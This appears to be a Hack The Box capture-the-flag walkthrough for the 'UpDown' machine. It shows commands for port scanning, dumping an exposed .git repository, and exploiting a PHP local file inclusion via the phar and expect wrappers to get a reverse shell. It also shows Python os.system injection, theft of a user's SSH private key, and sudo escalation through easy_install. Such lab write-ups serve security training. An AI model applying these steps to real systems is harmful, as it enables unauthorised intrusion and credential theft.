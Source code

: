 # [UpDown](https://app.hackthebox.com/machines/UpDown)

```bash
nmap -p- --min-rate 10000 10.10.11.177 -Pn  
```

![Alt text](img/image.png)

After detection of two open ports (22,80) , let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.177 
```

![Alt text](img/image-1.png)


From page of application, I add ip address into '/etc/hosts' file as 'siteisup.htb'

![Alt text](img/image-2.png)


Let's do directory enumeration via `feroxbuster` tool.

```bash
feroxbuster -u http://siteisup.htb -x php
```

![Alt text](img/image-3.png)


I found `/dev/.git` folder on web application.

![Alt text](img/image-4.png)


To get all data from here, I need to use [git-dumper](https://github.com/arthaud/git-dumper)

I use this script as below.
```bash
python3 git_dumper.py http://siteisup.htb/dev/.git/ /home/kali/Desktop/website/
```

![Alt text](img/image-5.png)


I found `.htaccess` value for dev website that for access purposes, I need to add HTTP request header.

![Alt text](img/image-6.png)


Special-Dev: "only4dev"


For this, I will use this [tool](https://addons.mozilla.org/en-US/firefox/addon/modify-header-value/) to add HTTP request header automatically for each request.

![Alt text](img/image-7.png)



Now, I can access application which is actually during development phase.

![Alt text](img/image-8.png)



I found LFI vulnerability on development application, so that `page` parameter can be infected via PHP wrappers , example is `expect` to execute system commands.

![Alt text](img/image-9.png)

![Alt text](img/image-10.png)


But I cannot turn into reverse shell.


While trying to upload, txt file, I cannot see them on `/uploads` folder due to delete restrictions.

That's why I bypassed this adding a file as compressed ( using `zip`)

```bash
echo "note" > note.txt
zip dr4ks.dr4ks note.txt
```

Now, I can see my file.

![Alt text](img/image-11.png)


Now, let's upload our reverse shell into machine.

1.First, let's create malicious php file.

2.Second, let's `zip` this file.
```bash
zip rev.dr4ks dr4ks.php
```

![Alt text](img/image-12.png)

3.Then, browse our payload as below by using `phar` PHP wrapper which I find LFI.
```bash
curl http://dev.siteisup.htb/?page=phar://uploads/fafdc27087ad17f9556931741b560be7/rev.dr4ks/dr4ks
```

![Alt text](img/image-13.png)



I got reverse shell from port (1337).

![Alt text](img/image-14.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo ;fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-15.png)


I found dev Python scripts in folder called '/home/developer/dev', it means it belongs to `developer` user.

![Alt text](img/image-16.png)

While analyzing binary via `strings` command, I see that 'siteisup_test.py' scripts works also.

![Alt text](img/image-17.png)


Let's run and inject payload into here,
```bash
__import__('os').system('id')
```
![Alt text](img/image-18.png)


Hola, it worked, let's add  shell payload.
```bash
__import__('os').system('bash')
```

![Alt text](img/image-19.png)


Again, I cannot read flag, but I find a solution that I grab private key of this user from his `.ssh` directory.

![Alt text](img/image-20.png)

Let's login into machine as 'developer' user by using his private key (id_rsa) file.

```bash
chmod 600 id_rsa
ssh -i id_rsa developer@10.10.11.177
```


user.txt

![Alt text](img/image-21.png)


For privilege escalation, I just check via `sudo -l` command.

![Alt text](img/image-22.png)


That's `easy_install` binary, I found exploits of this binary on [GTFObins](https://gtfobins.github.io/gtfobins/easy_install/#sudo)

I did all steps and it worked.


root.txt

![Alt text](img/image-23.png)